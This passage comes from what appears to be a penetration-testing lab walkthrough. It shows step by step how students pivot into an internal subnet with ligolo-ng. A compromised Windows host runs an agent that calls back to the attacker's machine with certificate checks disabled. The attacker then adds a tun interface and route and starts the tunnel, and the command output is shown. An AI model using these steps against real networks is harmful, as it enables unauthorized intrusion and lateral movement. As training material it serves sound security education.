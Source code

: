 Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```

Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```
